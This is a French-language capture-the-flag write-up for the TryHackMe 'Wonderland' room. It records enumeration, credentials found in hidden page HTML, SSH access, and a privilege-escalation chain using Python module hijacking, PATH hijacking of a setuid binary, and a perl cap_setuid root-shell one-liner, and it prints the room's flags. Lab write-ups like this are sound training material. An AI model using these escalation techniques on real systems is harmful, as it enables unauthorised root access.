



# Wonderland #

## Task 1 Capture the flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.11.213 wonderland.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A wonderland.thm -p- 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 14:42 CEST
Nmap scan report for wonderland.thm (10.10.11.213)
Host is up (0.073s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/31%OT=22%CT=1%CU=39386%PV=Y%DS=2%DC=T%G=Y%TM=612E240
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=100%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O
OS:3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   32.82 ms 10.9.0.1
2   90.59 ms wonderland.thm (10.10.11.213)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.86 seconds

```

D'après les résultats de nmap on a deux services : 
Le service SSH sur le port 22.    
Le service SSH sur le port 80.    

    

Sur la page principale on trouve une page qui dit de suivre le lapin blanc.   
Avec une image qui représente le lapin blanc.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://wonderland.thm/img/white_rabbit_1.jpg -nv
2021-08-31 14:50:06 URL:http://wonderland.thm/img/white_rabbit_1.jpg [1993438/1993438] -> "white_rabbit_1.jpg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf white_rabbit_1.jpg 

Entrez la passphrase: 
�criture des donn�es extraites dans "hint.txt".
tim@kali:~/Bureau/tryhackme/write-up$ cat hint.txt 
follow the r a b b i t
```

On analyse l'image et dans l'image on trouve une astuce qui nous r a b b i t.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u wonderland.thm -w /usr/share/dirb/wordlists/common.txt -q
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]  
/r                    (Status: 301) [Size: 0] [--> r/]  
```

Avec gobuster on remarque la première lettre de r a b b i t.  

    

On se retrouve sur une autre page qui dit ouvre la porte et entre dans le monde merveilleux.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://wonderland.thm/r/a/b/b/i/t/
<!DOCTYPE html>

<head>
    <title>Enter wonderland</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>

<body>
    <h1>Open the door and enter wonderland</h1>
    <p>"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."</p>
    <p>Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"
    </p>
    <p>"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving
        the other paw, "lives a March Hare. Visit either you like: they’re both mad."</p>
    <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
    
```

En regardant le code source la page on trouve des identifiants qui sont : 
Nom : alice      
Mot de passe : HowDothTheLittleCrocodileImproveHisShiningTail    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh alice@wonderland.thm
The authenticity of host 'wonderland.thm (10.10.11.213)' can't be established.
ECDSA key fingerprint is SHA256:HUoT05UWCcf3WRhR5kF7yKX1yqUvNhjqtxuUMyOeqR8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'wonderland.thm,10.10.11.213' (ECDSA) to the list of known hosts.
alice@wonderland.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 31 13:02:00 UTC 2021

  System load:  0.0                Processes:           84
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 28%                IP address for eth0: 10.10.11.213
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1

```

On se connecte sur le service SSH avec les identifiants.   

**Obtain the flag in user.txt**

```bash
alice@wonderland:~$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)

alice@wonderland:~$ ls -al
total 40
drwxr-xr-x 5 alice alice 4096 May 25  2020 .
drwxr-xr-x 6 root  root  4096 May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```

Dans alice on voit un fichier root.txt avec les droits root, il y sûrement une inversion.    

```bash
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ ls /root/user.txt
/root/user.txt
alice@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

On voit que l'on peut pas lister le répertoire root, mais que ca fonctionne pour user.txt.   
On lit le fichier user.txt.    

On a la réponse qui est : thm{"Curiouser and curiouser!"}   

**Escalate your privileges, what is the flag in root.txt?**

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

On voit que sudo est configuré pour exécuter le fichier walrus_and_the_carpenter.py avec les droits rabbit.    

```bash
alice@wonderland:~$ ls -al  walrus_and_the_carpenter.py 
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
```

On voit que l'on a pas les droits pour modifier le fichier walrus_and_the_carpenter.py 

```bash
alice@wonderland:~$ head walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun

alice@wonderland:~$ echo "import pty;pty.spawn('/bin/bash')" > random.py 
```

On exploite une faille qui est une usurpation de librairie de python.   
Le fichier random.py va être exécuter en premier.   

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
rabbit@wonderland:~$ cd ../rabbit
rabbit@wonderland:/home/rabbit$ ls -al
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

On change d'utilisateur grâce à l'exploit.   
Dans le repertoire rabbit on trouve un fichier teaParty qui setuid.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -l 1234 > teaParty
----------------------------------------
rabbit@wonderland:/home/rabbit$ nc 10.9.228.66 1234 < teaParty
```

On transfer le fichier pour analyse.    



On décompile le fichier avec ghidra.   

On voit le setuid est mis sur la valeur 0x3eb qui est 1003 que n'est le root.   
Que system invoque la date.  

```bash
rabbit@wonderland:/home/rabbit$ cat /etc/passwd | grep 1003
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
```

On voit que si on arrive à exploiter le fichier on aura les droit de hatter.   

```bash
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" > date
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
```

On fabrique un faux fichier date qui va exécuter un shell.  
On change la variable d'environnement PATH pour le notre fichier date soit exécuter en premier.   

```bash
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ cd /home/hatter/
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

On obtient un shell avec les droits de hatter.    
Dans le répertoire d'hatter on trouve un fichier password.txt avec un mot de passe à l'intérieur. 

```bash
hatter@wonderland:/home/hatter$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

On voit que perl a la capacité d'être setuid.    

```bash
hatter@wonderland:/home/hatter$ su hatter
Password: 
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cd ../alice
# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

On disant à perl d'exécuter un shell avec uid 0 on obtient un shell root.  
On lit le fichier root.txt dans alice et on a notre réponse.   

La réponse est : thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}    